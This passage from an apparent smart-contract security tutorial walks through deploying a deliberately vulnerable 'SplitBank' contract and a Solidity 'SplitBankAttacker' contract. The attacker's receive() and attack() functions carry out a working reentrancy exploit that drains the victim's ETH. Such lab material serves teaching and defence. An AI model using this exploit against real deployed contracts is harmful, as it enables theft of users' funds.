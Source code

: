 ### Step 3: Deploy the Vulnerable Contract

1. Compile the `SplitBank` contract
2. Deploy it using the Deploy button
3. Note the deployed contract's address

### Step 4: Deploy the Attacker Contract

1. Compile the `SplitBankAttacker` contract
2. When deploying, provide the address of the vulnerable `SplitBank` contract as a constructor parameter
3. This creates an attacker instance targeting our vulnerable contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.29;

interface ISplitBank {
    function deposit() external payable;
    function withdraw() external;
}

contract SplitBankAttacker {
    ISplitBank victim;
    bool private attacking = false;

    constructor(ISplitBank _victim) {
        // Store a reference to the vulnerable contract
        victim = _victim;
    }

    /**
     * @notice Forward deposit to the vulnerable contract
     */
    function deposit() public payable {
        victim.deposit{value: msg.value}();
    }

    /**
     * @notice Receive function triggered when contract receives ETH
     * @dev If victim contract still has ETH, re-enter withdraw to drain more funds
     */
    receive() external payable {
        if (address(victim).balance >= 0.001 ether) {
            victim.withdraw();
        }
    }

    /**
     * @notice Start the attack by depositing and immediately withdrawing
     */
    function attack() public payable {
        victim.deposit{value: msg.value}();
        victim.withdraw();
    }
}
```
